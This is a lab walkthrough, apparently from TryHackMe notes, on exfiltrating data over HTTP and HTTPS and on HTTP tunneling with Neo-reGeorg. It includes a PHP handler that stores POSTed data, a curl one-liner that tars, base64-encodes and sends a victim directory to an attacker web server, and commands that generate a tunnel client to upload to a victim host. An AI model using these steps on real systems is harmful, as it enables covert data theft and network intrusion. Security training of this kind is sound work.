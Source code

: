 # Exfiltrate using HTTP(S)

Using the `HTTP/HTTPS` protocol to exfiltrate data from a victim to an attacker's machine requires an attacker 
to have control over a webserver with a server-side programming language installed and enabled. It is challenging 
to detect for the blue team if using the POST HTTP method in the data exfiltration (with the GET request, all 
parameters are registered into the log file).

* POST requests are never cached
* POST requests do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

## HTTP data exfiltration

To exfiltrate data over the HTTP protocol:

* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
* A C2 agent or an attacker sends the data (using the `curl` command).
* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
* The attacker logs into the webserver to have a copy of the received data.

## Webserver

PHP snippet to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as 
`http.bs64` file name:

```text
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:

    thm@jump-box:~$ ssh thm@victim1.thm.com

Check the data:

    thm@victim1:~$ ls -l

Send POST data via curl:

    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:

    thm@victim1:~$ ssh thm@web.thm.com 
    thm@web:~$ ls -l /tmp/

Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces 
with `+` characters to make it a valid `base64` string:

    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

Restore the data:

    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -

## HTTPS communications

One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server. 
Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.  

## HTTP Tunneling

| ![HTTP tunnel](../../_static/images/http-tunnel.png) |
|:--:|
| With tunneling over the HTTP protocol technique other protocols are encapsulated and data can be sent <br>back and forth via the HTTP protocol. |

Use a `Neo-reGeorg` tool to create a communication channel to access the internal network devices:

Generate an encrypted client file to upload to the victim web server:

    root@kali:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm

The command generates encrypted tunneling clients with thm key in the `neoreg_servers/` directory. There are many 
extensions, including for PHP, ASPX, JSP, etc. 

Upload the `tunnel.php` file via the uploader machine. To access the uploader machine, visit 
`http://MACHINE_IP/uploader` or `https://LAB_WEB_URL.p.thmlabs.com/uploader` without the need for a VPN.